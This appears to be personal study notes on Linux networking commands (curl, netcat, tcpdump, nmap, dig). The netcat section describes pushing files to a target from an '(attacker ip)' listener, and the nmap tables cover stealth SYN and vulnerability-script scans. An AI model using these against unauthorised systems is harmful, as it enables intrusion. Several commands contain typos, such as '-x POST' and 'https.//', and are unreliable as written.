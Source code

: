 # Linux Commands

**curl**
- Client for URL transfers
- makes HTTP/HTTPS requests from the terminal
- eg.
	- `curl https:// example.com` # GET Request
	- `curl -x POST -d "username=ethan&password=secret" https://example.com/login` # POST request

**wget**
- download files over HTTP/S
- `wget https.//example.come/file.zip`

**http- HTTPie**
- modern alternative to curl
- `http https://example.com`

**openssl s_client**
- inspect HTTPS/TLS connections
- creates a raw TLS/SSL connection to a server
- shows cert details and cipher suite negotiation
- eg.
	- `openssl s_client -connect example.com:443`

**tcpdump**
- capture network packets
- eg.
	- `sudo tcpdump -i eth0 tcp port 80 -A`

**nc** (netcat)
- opens raw TCP/UDP connections
- eg. 
	- `nc example.com 80`
	- then,
	- `GET / HTTP/1.1`
	- `Host: example.com`
- connecting to servers
	- `nc -nv[u] (target-ip) (port)`
		- u if udp 
- listening as a server
	- `nc -nvlp (port)`
- file transfer (raw TCP-based file transfer without HTTP, FTP..)
	- `nc -nv (attacker ip) (port) > (out-file)
		- target connects to attacker's listener. the incoming stream is written into out-file on target
	- `nc -nvlp (port) < (file)` 
		- attacker opens a tcp listener and waits. once target connects, file gets sent to target
	- basically, the < makes nc send a file's contents, > makes nc save received data into a file

**telnet**
- same as above

**ss/netstat**
- view network connections
- show TCP/UDP socket status, including those using HTTP (port 80) or HTTPS (port 443)
- eg.
	- `ss -tuln` # show all listening and connected sockets
	- `ss -tanp | grep ':80\|:443`' # show active HTTP/HTTPS connections

**nmap**
- port scanning and service detection
- scan hosts to find open HTTP(S) ports and get service/version info
- eg.
	- `nmap -p 80,443 example.com`

| Command                          | Purpose                                     |
| -------------------------------- | ------------------------------------------- |
| `nmap 192.168.1.1`               | Basic ping scan to check if host is up      |
| `nmap -sS 192.168.1.1`           | SYN (stealth) scan to check open TCP ports  |
| `nmap -sV 192.168.1.1`           | Scan open ports and detect service versions |
| `nmap -O 192.168.1.1`            | Try to detect the operating system          |
| `nmap -p 80,443,22 192.168.1.1`  | Scan specific ports                         |
| `nmap 192.168.1.0/24`            | Scan entire subnet (CIDR format)            |
| `nmap --script vuln 192.168.1.1` | Run vulnerability detection scripts         |

| Scan Type           | Option | Description                                               |
| ------------------- | ------ | --------------------------------------------------------- |
| **TCP Connect**     | `-sT`  | Standard full TCP handshake (visible in logs)             |
| **SYN (Stealth)**   | `-sS`  | Sends SYN only, doesn't complete handshake (stealthy)     |
| **UDP**             | `-sU`  | Probes UDP ports (slower, often needs `sudo`)             |
| **Ping Scan**       | `-sn`  | Just checks which hosts are up (no ports)                 |
| **Aggressive Scan** | `-A`   | Combines OS detection, version detection, script scanning |


**dig/host**
- DNS tooles
- resolves domain names to IP addresses
- eg. 
	- `dig example.com`